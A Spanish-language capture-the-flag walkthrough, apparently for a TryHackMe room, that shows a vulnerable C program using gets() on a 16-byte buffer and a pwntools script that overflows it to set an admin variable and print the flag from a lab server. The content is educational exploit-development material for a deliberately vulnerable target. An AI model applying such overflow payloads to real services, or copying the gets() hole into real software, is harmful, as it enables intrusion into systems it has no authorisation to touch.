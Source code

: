 # Introducción

En esta máquina nos encontraremos con conceptos como Buffer Overflow, Assemby y Exploit development. 

# Materiales

Necesitaremos los archivos (que podemos descargar directamente)

O si tenemos la Attack box en la ruta : /root/Rooms/TryPwnMeOne

![image](https://github.com/user-attachments/assets/3d1ff79e-868e-40f5-9498-9ff74993436b)

# TryOverflow Me 1

Tenemos que intentar conseguir la flag de lservidor remoto en mi caso la ip: 10.10.117.33 9003

```
int main(){
    setup();
    banner();
    int admin = 0;
    char buf[0x10];

    puts("PLease go ahead and leave a comment :");
    gets(buf);

    if (admin){
        const char* filename = "flag.txt";
        FILE* file = fopen(filename, "r");
        char ch;
        while ((ch = fgetc(file)) != EOF) {
            putchar(ch);
    }
    fclose(file);
    }

    else{
        puts("Bye bye\n");
        exit(1);
    }
}
```

De aquí tenemos que entender el binario.

Por lo que veo donde esta lo importante es la declaración del admin = 0 en el momento que sea 1 sera admin, con lo cuál vemos un "char bug[0x10] haciendo que no se puedan ingresar mas de 16 caracteres, posteriormente nos encontramos con el gest();

Con eso tenemos un bugger overflow pudiendo ingresar mas caracteres y afectando a la variable.

Y como vemos si admin es distintio a 0 se abrira el archivo flag.txt en modo lectura.

# SOLUCION

Usando un script en python podemos habilitar una conexión entre el target y la máquina. Crafteando un payload con 16 bytes seguido de repetir el valor de la variable admin hasta cambiar el valor.

```
from pwn import *

# Target IP and port
target_ip = '10.10.23.250'
target_port = 9003

# Connect to the remote server
p = remote(target_ip, target_port)

# Craft the payload
padding = b'A' * 16   # 16 bytes to fill the buffer
admin_value = p32(1) * 64  

payload = padding + admin_value 

# Send the payload
p.sendline(payload)

# Interact with the program to see the result (e.g., flag output)
p.interactive()
```

Acordemonos de tener installadas las pwntools

```
pip install pwntools
```




